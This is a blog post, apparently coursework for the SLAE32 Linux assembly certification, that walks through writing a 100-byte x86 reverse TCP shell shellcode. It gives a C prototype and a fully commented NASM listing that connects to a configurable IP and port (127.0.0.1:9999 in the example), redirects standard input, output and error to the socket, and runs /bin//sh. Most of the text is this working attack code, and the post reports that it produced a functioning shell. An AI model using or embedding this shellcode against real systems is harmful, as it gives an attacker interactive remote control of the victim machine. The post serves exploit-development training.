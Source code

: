 ```yaml
---
layout: page
title: SLAE32 Assignment 2
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 2: Reverse TCP Shell</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

The second assignment is to create a reverse tcp shell, with a configurable IP and port. In the first assignment, I opted for features over brevity. In this case, I aim to make the shellcode as short as possible.

Based on the [last assignment](/SLAE32/slae32-assignment1), one important structure that I will need is the `sockaddr_in` struct. The first byte will again be a 2, the second byte will be 0, the next two bytes will be the port, the next four bytes will be the IP address, then there will be 8 null bytes. This is what will get passed to the connect system call. Of course, I wanted to verify this as well as find the socketcall number, so again I created a C program to perform the reverse shell.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(){
	char *execargs[] = {"/bin//sh", 0};
	struct sockaddr_in sa;
	sa.sin_family = AF_INET;
	sa.sin_addr.s_addr = inet_addr("127.0.0.1");
	sa.sin_port = htons(9999);
	int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	connect(sock, (const struct sockaddr *) &sa, 16);
	dup2(sock,0);
	dup2(sock,1);
	dup2(sock,2);
	execve(execargs[0], execargs, 0);
}
```

Running it through gdb as before shows that the socketcall number is 3. This can be confirmed by looking at /usr/include/linux/net.h

```
#define SYS_CONNECT     3               /* sys_connect(2)               */
```
Based on this information, as well as what was learned in the first assignment, I was able to write the assembly code. For whatever reason, this one took a lot more debugging. In any case, here is the assembly file, with copious comments to explain each step.

```nasm
; Filename: shell_bind_fork_tcp.nasm
; Author:  Mark Shaneck
; Website:  http://markshaneck.com
;
; Purpose: The purpose of this shellcode connect back
; to a host and port of our choosing

global _start

section .text
_start:

	; First things first, call socket
	; need to call socketcall with args 1, and domain (2), type (1), protocol(6)
	push byte 6 ; protocol = IPPROTO_TCP
	push byte 1 ; type = SOCK_STREAM
	push byte 2 ; domain = AF_INET
	xor eax, eax
	mov al, 102 ; syscall - socketcall
	xor ebx,ebx
	mov bl, 1   ; socket sockcall type
	mov ecx, esp ; pointer to the args
	int 0x80

	; eax now contains the socket file descriptor

	; let's dup the stdio FDs
	pop ecx ; we are going to loop from 2 to 0, and 2 happens to be on the top of the stack
	mov ebx,eax ; put socket file descriptor in ebx
dup:
	mov al, 63 ; dup2 syscall
	int 0x80
	dec ecx
	cmp cl,0xff
	jne dup

	; now we call connect
	; we need the socket file descriptor, a pointer to the sockaddr structure and a 16
	; perform a jmp-call-pop to get the port number so that it is easily configurable
	jmp short get_sockaddr

got_sockaddr:
	pop ecx               ; put address of sockaddr struct into ecx
	mov edx,[ecx+2]
	push edx              ; push the ip address next
	mov dx, word [ecx]    ; put the port into ebx
	shl edx,16            ; move the port number to the higher order bytes
	add dl,2              ; put the socket family in there
	push edx

	mov edx, esp ; now ebx has the address of the sockaddr_in struct
	push byte 0x10
	push edx
	push ebx
	mov ecx, esp
	xor ebx,ebx
	mov bl, 3   ; connect sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

	; we should now be connected

	; execve the shell using stack method
	; let's execute sh
	xor eax,eax
	push eax
	push 0x68732f2f
	push 0x6e69622f

	mov ebx,esp ; pointer to "/bin//sh"
	push eax
	mov edx,esp ; env pointer (NULL)

	push ebx
	mov ecx,esp ; pointer to [pointer to "/bin//sh", 0]

	mov al, 11 ; execve syscall
	int 0x80

get_sockaddr:
	call got_sockaddr
	sockaddr: db 0x27, 0x0f, 0x7f, 0x00, 0x00, 0x01
	; should we worry about the nulls in the ip addr?
```

Compiling and pasting the shellcode into the shellcode stub resulted in a functioning reverse tcp shell.

{% include image name="functional_shellcode.png" width="100%" %}

Total shellcode length was exactly 100 bytes, which was an improvement from my initial straightforward attempt, which was somewhere around 120 bytes. I tried to break the arbitrary 100 byte boundary, but I ran out of way to shorten it any further. I could probably save a few more bytes by placing the ip address and port in the middle of the program and not using the jmp-call-pop technique to get its location, but I wanted to leave that in for ease of configuration.

Some of the improvements I made in this shellcode, as compared to assignment 1, aside from extra features, was pushing hardcoded bytes onto the stack directly, instead of loading them into registers and pushing those. The other major improvement I made to save some space was to rearrange the functions. Namely, putting `dup2` just after `socket` allowed for reuse of some registers, as the values were already in them.

One limitation of the shellcode is in the IP address. It is placed at the end and it is not encoded. That means that you cannot put an IP address as the destination that contains a null byte. At least, that is, if you need to avoid null bytes. As you can see in my example, I have two null bytes, since I was connecting to 127.0.0.1. However, I didn't want to add the additional complexity of encoding, plus any sort of simple encoding would require some byte to be disallowed from the IP address. The idea that I had was that you could put an encoding byte just after the IP address, and have the shellcode use that byte to decode the address. That way, it could be configurable, along with the IP, and so you could choose a byte that isn't in the address you were connecting to. Perhaps I'll implement that for bonus points. :)

</div>
